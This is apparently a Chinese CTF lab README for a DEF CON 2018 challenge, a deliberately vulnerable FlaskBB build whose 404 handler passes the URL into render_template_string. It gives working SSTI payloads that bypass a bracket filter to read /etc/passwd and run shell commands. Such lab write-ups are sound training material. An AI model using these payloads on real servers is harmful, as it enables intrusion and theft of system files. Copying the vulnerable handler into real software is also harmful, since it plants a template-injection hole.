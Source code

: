 ## 0x00  环境编译
```
docker-compose build
docker-compose up -d
```
该题是2018年Defcon对抗赛的web1，该网站用的是flaskbb搭建的，本身没有存在漏洞，开发人员通过修改了源代码造成了SSTI漏洞，现在凡是涉及Flask的安全问题几乎都会重点提及SSTI

漏洞源码在flasks/app.py文件中的375行开始
```
   375	    @app.errorhandler(404)
   376	    def page_not_found(error):
   377	        url = request.url
   378	        if '[' in url or ']' in url:
   379	            return "<h1>url error!</h1>"
   380
   381	        return render_template_string("<h1>URL %s  not found</h1><br/><p>Some programmers developed a forum program based on the foundation of flaskbb , but it cause some defects and bugs. Try to find it.</p><p>Notice that you should access the website with host \"<b>flaskweb.com</b>\" , please modify your hosts file or ADD this to HTTP header.</p>" % url), 404
```


## 0x01 漏洞利用

通过之前的代码显示，过滤了中括号，上网搜索了一下找到了绕过的payload
文件读取payload
```
{{''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()}}
```

![](README/luffy1.png)


命令执行payload
```
{{''.__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen('ls').read()}}
```

![](README/luffy2.png)





##  0x02 链接

[SSTI过滤绕过](http://p0sec.net/index.php/archives/120/)
[SSTI攻击分析](https://hellohxk.com/blog/ssti/)
[Flask jinja2模板注入思路总结](http://www.ee50.com/ld/940.html)



